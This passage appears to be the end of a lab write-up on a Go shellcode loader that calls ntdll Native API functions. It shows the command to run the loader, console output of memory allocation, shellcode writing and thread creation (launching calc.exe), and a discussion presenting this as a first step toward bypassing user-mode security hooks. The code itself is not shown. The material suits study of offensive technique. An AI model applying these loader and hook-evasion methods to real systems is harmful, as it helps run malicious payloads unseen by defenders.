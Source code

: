 In case it’s required, transfer the binary over to the target system, and run it.

```shell
.\native_loader.exe
```


## Results

```shell
PS C:\Users\vuilhond\Desktop> .\native_agent.exe
[+] Native API Shellcode Loader
[*] Getting handle to ntdll.dll...
[+] Got ntdll.dll handle: 0x7FF99F190000
[*] Finding function addresses...
  [+] Found 'NtAllocateVirtualMemory' at address: 0x7FF99F22D7E0
  [+] Found 'NtWriteVirtualMemory' at address: 0x7FF99F22DC20
  [+] Found 'NtCreateThreadEx' at address: 0x7FF99F22ED10
  [+] Found 'NtWaitForSingleObject' at address: 0x7FF99F22D560
  [+] Found 'NtFreeVirtualMemory' at address: 0x7FF99F22D8A0
  [+] Found 'NtClose' at address: 0x7FF99F22D6C0
[+] All required function addresses found.
[*] Allocating memory for shellcode...
[+] Memory allocated at: 0x21568E60000, Size: 4096 bytes
[*] Writing shellcode to allocated memory...
[+] Shellcode (4096 bytes) written to memory. Bytes written: 4096
[*] Creating a new thread to execute shellcode...
[+] Thread created successfully with Handle: 0x17C. Shellcode should be executing (calc.exe).
[*] Waiting for the thread to complete (calc.exe to be closed)...
[+] Thread completed.
[*] Closing thread handle...
[+] Thread handle 0x17C closed.
[*] Freeing allocated memory...
[+] Memory (previously at 0x21568E60000) freed successfully.
[+] Shellcode injection process complete.
```

- Additionally, `calc.exe` should also be launched


## Discussion

This lab successfully demonstrates the core mechanics of calling Native API functions like `NtAllocateVirtualMemory` and `NtWriteVirtualMemory` from Go using the `syscall` package. We saw the necessity of:

- Finding the function addresses dynamically.
- Carefully constructing the arguments as `uintptr` values, often requiring `unsafe.Pointer` to pass addresses of variables.
- Checking the `NTSTATUS` returned by the Native API function itself.

Compared to using the high-level WinAPI wrappers (like `windows.VirtualAlloc`), this approach requires significantly more manual effort and a precise understanding of the underlying function signatures. However, it grants us the ability to call functions directly in `ntdll.dll`, which is the first step towards bypassing user-mode hooks targeting `kernel32.dll`.
